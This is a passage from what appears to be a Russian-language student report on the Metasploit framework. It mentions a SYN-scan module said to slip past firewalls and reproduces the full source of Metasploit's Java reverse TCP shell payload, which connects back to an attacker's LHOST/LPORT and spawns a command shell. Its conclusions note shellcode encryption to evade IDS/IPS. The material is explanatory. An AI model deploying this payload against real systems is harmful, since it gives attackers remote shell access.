\begin{verbatim}
include Msf::Exploit::Capture
include Msf::Auxiliary::Scanner
include Msf::Auxiliary::Report
\end{verbatim}

Данный модуль реализует схожую с NMAP функциональность, при этом используя только SYN пакеты, что, по заверению автора, позволяет уменьшить шанс того, что пакет будет блокирован фаерволом.

\paragraph{shell_reverse_tcp.rb}
\begin{lstlisting}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'msf/core/handler/reverse_tcp'
require 'msf/base/sessions/command_shell'
require 'msf/base/sessions/command_shell_options'

module Metasploit3

  include Msf::Payload::Single
  include Msf::Payload::Java
  include Msf::Sessions::CommandShellOptions

  def initialize(info = {})
    super(merge_info(info,
      'Name'          => 'Java Command Shell, Reverse TCP Inline',
      'Description'   => 'Connect back to attacker and spawn a command shell',
      'Author'        => [
          'mihi', # all the hard work
          'egypt' # msf integration
        ],
      'License'       => MSF_LICENSE,
      'Platform'      => [ 'java' ],
      'Arch'          => ARCH_JAVA,
      'Handler'       => Msf::Handler::ReverseTcp,
      'Session'       => Msf::Sessions::CommandShell,
      'Payload'       =>
        {
          'Offsets' => { },
          'Payload' => ''
        }
      ))
    @class_files = [
      [ "metasploit", "Payload.class" ],
      [ "javapayload", "stage", "Stage.class" ],
      [ "javapayload", "stage", "StreamForwarder.class" ],
      [ "javapayload", "stage", "Shell.class" ],
    ]
  end

  def generate_jar(opts={})
    jar = Rex::Zip::Jar.new
    jar.add_sub("metasploit") if opts[:random]
    @class_files.each do |path|
      1.upto(path.length - 1) do |idx|
        full = path[0,idx].join("/") + "/"
        if !(jar.entries.map{|e|e.name}.include?(full))
          jar.add_file(full, '')
        end
      end
      fd = File.open(File.join( Msf::Config.data_directory, "java", path ), "rb")
      data = fd.read(fd.stat.size)
      jar.add_file(path.join("/"), data)
      fd.close
    end
    jar.build_manifest(:main_class => "metasploit.Payload")
    jar.add_file("metasploit.dat", config)

    jar
  end

  def config
    c =  ""
    c << "LHOST=#{datastore["LHOST"]}\n" if datastore["LHOST"]
    c << "LPORT=#{datastore["LPORT"]}\n" if datastore["LPORT"]
    # Magical, means use stdin/stdout.  Used for debugging
    #c << "LPORT=0\n"
    c << "EmbeddedStage=Shell\n"

    c
  end

end
\end{lstlisting} 

Данный модуль нацелен на удленный запуск java консоли и предоставления доступа атакующему.
 
 
\section{Выводы} 
Metasploit позволяет конструировать эксплойты с необходимой нагрузкой (payloads), которая выполняется в случае удачной атаки, например, установка shell или VNC сервера. Также фреймворк позволяет шифровать шеллкод, что может скрыть факт атаки от IDS или IPS. Для проведения атаки необходима информация об установленных на удаленном сервере сервисах и их версии, то есть нужно дополнительное исследование с помощью таких инструментов, как nmap.

 
\end{document}
